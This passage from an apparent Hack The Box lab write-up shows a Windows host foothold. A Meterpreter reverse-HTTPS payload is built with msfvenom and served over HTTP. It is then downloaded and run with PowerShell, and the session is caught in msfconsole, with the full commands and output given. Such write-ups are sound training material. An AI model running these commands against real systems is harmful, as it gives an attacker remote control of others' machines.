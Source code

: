 Among the results, I found out that the target is vulnerable to 2 CVEs.
- CVE-2020-1013 :  Windows Server Update Services(WSUS)
- CVE-2020-0796 : SMBv3 Local Privilege Escalation

Also, there are non-Microsoft services found.
- Druva inSync Client Service
- OpenSSH
- VMware...

I think I have to use either CVEs or Services.
Let's spawn an interactive shell first using `msfvenom` and `msfconsole`.

Create a payload :

```bash
┌──(kali㉿kali)-[~/htb/WS01]
└─$ msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.14.3 LPORT=9001 -f exe -o wintest.txt
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 662 bytes
Final size of exe file: 7168 bytes
Saved as: wintest.txt


┌──(kali㉿kali)-[~/htb/WS01]
└─$ python -m http.server 8888
Serving HTTP on 0.0.0.0 port 8888 (http://0.0.0.0:8888/) ...
10.10.110.3 - - [06/Jan/2025 04:27:24] "GET /wintest.txt HTTP/1.1" 200 -
```

Download and run it.

```bash
gerald@DANTE-WS01:C:\Users\gerald\Documents# powershell wget http://10.10.14.3:8888/wintest.txt -o test.exe

gerald@DANTE-WS01:C:\Users\gerald\Documents# .\test.exe
```

Let's capture the shell.

```bash
┌──(kali㉿kali)-[~/htb/WS01]
└─$ msfconsole

msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload payload/windows/x64/meterpreter/reverse_https
payload => windows/x64/meterpreter/reverse_https
msf6 exploit(multi/handler) > set LHOST 10.10.14.3
LHOST => 10.10.14.3
msf6 exploit(multi/handler) > set LPORT 9001
LPORT => 9001
msf6 exploit(multi/handler) > run

[*] Started HTTPS reverse handler on https://10.10.14.3:9001
[!] https://10.10.14.3:9001 handling request from 10.10.110.3; (UUID: 5f1pzitn) Without a database connected that payload UUID tracking will not work!
[*] https://10.10.14.3:9001 handling request from 10.10.110.3; (UUID: 5f1pzitn) Staging x64 payload (202844 bytes) ...
[!] https://10.10.14.3:9001 handling request from 10.10.110.3; (UUID: 5f1pzitn) Without a database connected that payload UUID tracking will not work!

[*] Meterpreter session 1 opened (10.10.14.3:9001 -> 10.10.110.3:28620) at 2025-01-06 04:31:05 -0500

```